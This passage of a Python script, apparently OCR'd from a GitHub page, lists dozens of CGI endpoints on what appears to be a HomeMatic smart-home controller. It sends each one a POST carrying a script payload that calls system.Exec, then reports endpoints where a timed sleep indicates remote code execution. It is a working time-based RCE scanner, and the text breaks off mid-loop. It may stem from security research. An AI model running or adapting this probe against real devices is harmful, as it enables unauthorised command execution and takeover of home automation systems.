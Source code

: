 ~~~python
'/api/backup/login.cgi', \
'/api/backup/paramset.cgi', \
'/api/backup/binfile.cgi', \
'/api/backup/logout.cgi', \
'/api/backup/run-script.cgi', \
'/config/cp_software.cgi', \
'/config/ic_easymode.cgi', \
'/config/st_values.cgi', \
'/config/ic_ifacecmd.cgi', \
'/config/ic_linkpeerlist.cgi', \
'/config/cp_add_device.cgi', \
'/config/cp_time.cgi', \
'/config/control_panel.cgi', \
'/config/ic_selchannel.cgi', \
'/config/ic_deviceFirmwareOverview.cgi', \
'/config/cp_maintenance.cgi', \
'/config/display/datetime.cgi', \
'/config/display/newdevice.cgi', \
'/config/display/network.cgi', \
'/config/display/countdevices.cgi', \
'/config/display/hss_index.cgi', \
'/config/display/display.cgi', \
'/config/cp_security.cgi', \
'/config/verifysid.cgi', \
'/config/help.cgi', \
'/config/ic_seldevice.cgi', \
'/config/cp_display.cgi', \
'/config/ic_deviceparameters.cgi', \
'/config/ic_neweasymode.cgi', \
'/config/cp_network.cgi', \
'/config/ic_setprofiles.cgi', \
'/config/ic_md.cgi', \
'/upnp/index.cgi', \
'/upnp/basic_dev.cgi')


print('Will check POST request against target http://{}:{} now'.format(host, port))
for uri in allURIs:
	#print('Trying URI {}'.format(uri))
	print('{} of {}'.format(allURIs.index(uri), len(allURIs)))
	uri = uri.replace("/rega", "")

	HaveToRetry = True
	while HaveToRetry:
		startTime = time.time()
		connection = http.client.HTTPConnection(host, port, timeout=5)
		connection.request('POST', uri, 'var x=system.Exec("sleep 4;");')
		response = connection.getresponse()
		stopTime = time.time()
		executionTime = stopTime - startTime
		#print('Execution time was {}'.format(executionTime))
		#print('{} {} - response on POST request'.format(response.status, response.reason))
		try:
			content = response.read().decode('utf-8')
			#print(content[:100], '...')
			if (executionTime > 4):
				print('Strike! HTTP POST on URL \'{}\' got back processing time around 4 seconds ({}) which indicates a successful RemoteCodeExecution'.format(uri, executionTime))
			#else:
				#print('Seems to be NO RCE with execution time of {}'.format(executionTime))

			if (response.status == 404):
				#try to find the representing target URI by cutting the prefix
~~~